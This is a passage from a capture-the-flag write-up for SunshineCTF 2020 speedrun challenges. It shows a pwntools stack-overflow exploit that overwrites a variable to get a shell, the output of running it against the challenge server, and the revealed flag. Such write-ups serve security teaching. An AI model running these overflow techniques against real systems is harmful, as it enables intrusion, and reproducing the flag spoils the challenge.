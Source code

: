 This is identical to [speedrun-00](#speedrun-00) with a different offset.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_01')

if not args.REMOTE:  
	p = process(binary.path)  
else:  
	p = remote('chal.2020.sunshinectf.org', 30001)

p.sendlineafter('Long time ago, you called upon the tombstones\n','foobar')

payload  = b''  
payload += (0x68 - 0xc) * b'A'  
payload += p32(0xfacade)

p.sendline(payload)  
p.interactive()  
```

Output:

```bash  
# ./exploit_01.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-01/chall_01'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30001: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_01) gid=1000(chall_01) groups=1000(chall_01)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8456 Nov  7 07:49 chall_01  
-rw-r----- 1 root chall_01   35 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{eternal-rest-6a5ee49d943a053a}  
```

## speedrun-02

### Checksec  
```  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
```

